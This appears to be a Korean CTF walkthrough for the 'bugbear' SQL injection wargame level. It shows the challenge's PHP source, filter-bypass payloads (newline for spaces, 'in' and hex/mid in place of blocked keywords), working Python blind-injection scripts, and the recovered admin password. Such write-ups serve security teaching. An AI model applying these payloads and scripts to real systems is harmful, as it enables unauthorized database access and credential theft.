 # bugbear

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 파라미터 `no`에서는 `'`, `substr`, `ascii`, `=`, `or`, `and`, `공백`, `like`, `0x`를 필터링 한다.
&rarr; 점점 필터링이 늘어만 간다.
- admin의 정확한 pw를 알아야 한다.

## 3. Solution
python 스크립트를 이용해 blind-sqlinjection 한다.

a. pw의 길이
b. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`no` | 1234%0a||%0aid%0ain%0a("admin")%0a&&%0alength(pw)<`i`


공백dms `%0a`로 우회하였다.
`=`과 `like`모두 필터링하므로, `id in ("admin")` 구문을 활용하였다.
마지막 정수와의 비교 부분의 `=`은 `<`으로 우회하였다.


이후, 비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?\
            no=1234%%0a||%%0aid%%0ain%%0a(\"admin\")%%0a%%26%%26%%0alength(pw)<%d" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i-1
        print("Length of pw : %d" % pw_len)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw

변수명 | 값
---|---:
`no` | 1234%0a||%0aid%0ain%0a("admin")%0a&&%0ahex(mid(pw,1,1))<hex(10)


마찬가지로 =, like는 `in("~~")`구문으로, ascii는 hex로 우회하였다.

a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?\
            no=1234%%0a||%%0aid%%0ain%%0a(\"admin\")%%0a%%26%%26%%0alength(pw)<%d" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i-1
        print("Length of pw : %d" % pw_len)
        break
        
pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?\
                no=1234%%0a||%%0aid%%0ain%%0a(\"admin\")%%0a%%26%%26%%0ahex(mid(pw,%d,1))<hex(%d)" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j-1)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 5
pw(2) : 52
pw(3) : 52d
pw(4) : 52dc
pw(5) : 52dc3
pw(6) : 52dc39
pw(7) : 52dc399
pw(8) : 52dc3991
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.

변수명 | 값
---|---:
`pw` | 52dc3991